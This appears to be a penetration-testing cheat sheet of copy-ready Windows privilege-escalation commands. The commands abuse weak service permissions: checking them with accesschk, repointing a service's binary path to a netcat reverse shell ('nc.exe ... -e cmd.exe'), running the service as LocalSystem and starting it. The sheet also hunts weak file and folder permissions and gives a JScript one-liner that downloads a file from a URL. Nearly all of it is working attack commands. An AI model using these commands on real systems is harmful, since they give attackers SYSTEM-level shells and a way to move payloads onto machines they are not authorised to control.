 ## check service privilege
```
accesschk.exe /accepteula -ucqv <service_name>
```

## reconfigure service
```
sc config <service> binpath= "C:\nc.exe -nv 127.0.0.1 4444 -e C:\WINDOWS\System32\cmd.exe"
```

## change service 
```
sc config <service> obj= ".\LocalSystem" password= ""
```

## start service
```
net start <service>
```

## check permission (1)
```
accesschk.exe /accepteula -dqv "<file>"
```

## check permission (2)
```
cacls "<file>"
```

## find weak folder permission
```
accesschk.exe -uwdqs Users <c>:\
```

## find weak file permission
```
accesschk.exe -uwqs Users <c>:\
```

% windows, download

## VBS download file script
#cat/ATTACK/FILE_TRANSFERT 
```
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);WinHttpReq.Send();WScript.Echo(WinHttpReq.ResponseText); > fu.js && cscript /nologo fu.js <file_url> > <downloaded_file>
```
